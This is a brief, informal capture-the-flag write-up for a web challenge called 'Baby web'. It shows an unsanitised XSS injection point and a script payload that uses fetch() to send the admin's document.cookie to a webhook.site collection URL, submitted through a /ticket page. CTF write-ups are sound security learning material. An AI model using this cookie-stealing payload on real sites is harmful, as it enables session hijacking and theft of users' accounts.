 # Baby web
Web with xss
We see that literally putting in shit like:
```html
<script>alert(1)</script>
```
already runs the script; there is no sanitization, so we just need to steal cookie and ship it off the `/ticket` for the admin to get fucked:
```html
<script>fetch("https://webhook.site/blahblah?cookie="+document.cookie,{'mode':'no-cors'})</script>
```
get cookie in https://webhook.site

Hoot
